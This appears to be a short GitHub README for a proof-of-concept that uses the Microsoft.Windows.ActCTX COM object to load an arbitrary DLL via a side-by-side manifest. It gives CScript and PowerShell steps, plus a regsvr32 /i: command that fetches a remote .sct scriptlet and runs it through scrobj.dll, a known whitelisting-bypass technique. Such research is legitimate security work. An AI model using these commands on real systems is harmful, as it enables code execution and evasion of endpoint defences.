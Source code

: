 # RegistrationFreeCOM
Inject DLL Prototype using Microsoft.Windows.ACTCTX COM Object

Extract Files to C:\Tools\regfree

CScript Example:

C:\Windows\syswow64\cscript.exe regfree.js

PowerShell Example:   Be Sure to Use x86 PowwerShell for my POC

$a = New-Object -COM Microsoft.Windows.ActCTX

$a.Manifest = "C:\Tools\regfree\SideBySide.X.manifest"

$a.CreateObject("SideBySide.X")

The DLL can be any dll you create with code in DLL_PROCESS_ATTACH

This may be useful.  I don't know.  I think its interesting.

For DynamicWrapperX example:

C:\Windows\syswow64\regsvr32.exe 

/s /u /i:https://raw.githubusercontent.com/subTee/RegistrationFreeCOM/master/dynamicwrapper.sct scrobj.dll

